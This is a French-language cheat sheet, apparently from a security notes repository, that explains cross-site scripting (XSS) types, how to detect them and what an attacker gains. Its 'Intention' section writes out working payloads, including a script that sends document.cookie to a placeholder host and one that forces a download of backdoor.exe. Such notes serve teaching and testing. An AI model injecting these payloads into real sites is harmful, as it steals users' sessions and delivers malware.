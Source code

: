# Failles web - XSS

## Description
La faille XSS ou Xross-Site Scripting est une faille par injection (de code) et est parmi les plus répandues sur le web. Il existe deux grandes familles:
* Reflective (non persistante) : pas d'écriture dans la base de données, c'est par exemple l'affichage d'une popup
* Stored (persistante) : le code injecté est enregistré (fichiers, bdd...) et sera exécuté ultérieurement par l'utilisateur de ces données (ex livre d'or, commentaires à un admin ...)

Il est difficile de s'en prémunir puisque le navigateur devrait alors désactiver des fonctions importantes pour son fonctionnement nominal.

## Détection
Pour détecter une faille XSS, il faut tester toutes les entrées utilisateurs en injectant un caractère en fonction du langage, par exemple:
* HTML, XML : `& " ' < >`
* JSON : `& " ' < > : , [ ] { }`

Il est également possible d'injecter directement du code interprétable HTML, JS ou CSS:
* JS :  `<script type=’text/javascript’> alert(‘Hello’) ; </script>`
* CSS : `<style type="text/css"> body { background-color : blue ; background-image : none ; } </style>`
* HTML : `<b>Hello</b>`
* HTML+CSS : `<b style=”text-decoration:blink ;”> Hello </b>` 

Les entrées utilisateurs sont :
* les paramètres de la requêtes GET ou POST
* les champs de formulaires
* un cookie (si il est url encodé)
* les sources de données (fichiers, BDD, flux ...)

## Intention
Les failles XSS permettent de :
* Voler des cookies : `<script>document.location="http://domain.com/get.php?v=" + document.cookie;</script>`
* Rediriger : `<script type="text/javascript">window.location.replace("http://www.google.fr");</script>`
* Deface : `<script type="text/javascript">msg = "<p style=‘text-decoration:blink;color :#F00 ;’> Vous êtes victime d’une attaque XSS ! </p>" ;document.write(msg) ;</script>`
* Forcer un téléchargement : `<script>var link =document.createElement('a');link.href='http://domain.com/backdoor.exe';link.download='';document.body.appendChild(link);link.click();</script>`

Pour trouver de nombreux autres exemples : 
* http://html5sec.org/#html5
* https://www.xss-payloads.com/payloads-list.html?c#category=capture

## Exploitation
